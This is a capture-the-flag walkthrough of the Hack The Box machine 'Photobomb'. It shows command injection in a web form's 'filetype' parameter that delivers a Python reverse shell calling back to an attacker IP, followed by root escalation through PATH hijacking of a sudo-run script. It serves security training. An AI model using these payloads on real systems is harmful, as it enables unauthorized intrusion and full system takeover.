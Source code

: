 ```yaml
---
cover: ../../.gitbook/assets/Photobomb.png
coverY: 250.98666666666665
layout:
  cover:
    visible: true
    size: hero
  title:
    visible: true
  description:
    visible: true
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Photobomb

I scan the remote host ...

```sh
nmap -sV -sC -v -p- 10.10.11.182
```

... and I get this result :&#x20;

<figure><img src="../../.gitbook/assets/photobomb-nmap.png" alt=""><figcaption></figcaption></figure>

There is a web service running on `port 80` with `nginx/1.18.0` and the operating system is `Ubuntu`. I add the Local DNS Name :

```sh
echo '10.10.11.182 photobomb.htb' | tee -a /etc/hosts
```

I try to enumerate website :

```sh
gobuster dir -w /usr/share/wordlists/dirb/common.txt -u http://photobomb.htb
```

I get one subdirectory :

<figure><img src="../../.gitbook/assets/photobomb-gobuster.png" alt=""><figcaption></figcaption></figure>

When I load this page, it asks me a login and a password. If I inspect the web page, I can see there is a script running on :&#x20;

<figure><img src="../../.gitbook/assets/photobomb-find-script.png" alt=""><figcaption></figcaption></figure>

In this script, there are some clear credentials :&#x20;

<figure><img src="../../.gitbook/assets/photobomb-find-script-password.png" alt=""><figcaption></figcaption></figure>

I check the url `http://pH0t0:b0Mb!@photobomb.htb/printer`. I can download images, I open BurpSuite and grab the request, I can see there are 3 parameters :

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

I want inject some code to ping the local host from remote, thus I start a ICMP listener on the local host ...

```sh
tcpdump -i tun0
```

... then I modify the filetype parameter like this :

```
photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;ping+-c+3+10.10.14.9&dimensions=3000x2000
```

I receive ICMP requests on the local host :&#x20;

<figure><img src="../../.gitbook/assets/photobomb-icmp.png" alt=""><figcaption></figcaption></figure>

I start a netcat listener to host the remote shell :

```sh
nc -lnvp 8888
```

I try to inject a reverse shell payload in the `filetype` parameter. The payload is :

```sh
export RHOST="10.10.14.17";
export RPORT=8888;

python3 -c 'import sys, socket, os, pty; s=socket.socket(); s.connect((os.getenv("RHOST"), int(os.getenv("RPORT")))); [os.dup2(s.fileno(), fd) for fd in (0, 1, 2)]; pty.spawn("sh")'
```

And I insert it into the request :

```
POST /printer HTTP/1.1
Host: photobomb.htb
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 78
Origin: http://photobomb.htb
DNT: 1
Authorization: Basic cEgwdDA6YjBNYiE=
Connection: close
Referer: http://photobomb.htb/printer
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;export+RHOST="10.10.14.17";export+RPORT=8888;python3+-c+'import+sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd)+for+fd+in(0,1,2)];pty.spawn("sh")'&dimensions=3000x2000
```

When I send this request, I gain reverse shell on netcat :

```sh
cat /home/wizard/user.txt
```

Upgrade the shell :

```sh
python3 -c "import pty;pty.spawn('/bin/bash')"
```

I check sudo permissions with `sudo -l` :&#x20;

<figure><img src="../../.gitbook/assets/photobomb-sudo-permissions.png" alt=""><figcaption></figcaption></figure>

This file executes `/opt/.bashrc` :&#x20;

<figure><img src="../../.gitbook/assets/photobomb-cleanup-content.png" alt=""><figcaption></figcaption></figure>

Look at the difference between original `.bashrc` and actual `.bashrc` :

```bash
diff /etc/bash.bashrc /opt/.bashrc
```

There is one interesting difference, `enable -n [ # ]` because it enables all file for the current PATH. I have to update the PATH to include a new file which executes a `/bin/bash` as root.

<figure><img src="../../.gitbook/assets/photobomb-diff-bashrc.png" alt=""><figcaption></figcaption></figure>

I execute these commands :

```sh
echo '/bin/bash' | tee /tmp/[
chmod +x /tmp/[
sudo PATH=/tmp:$PATH /opt/cleanup.sh
```

I gain root privilege :

```sh
cat /root/root.txt
```
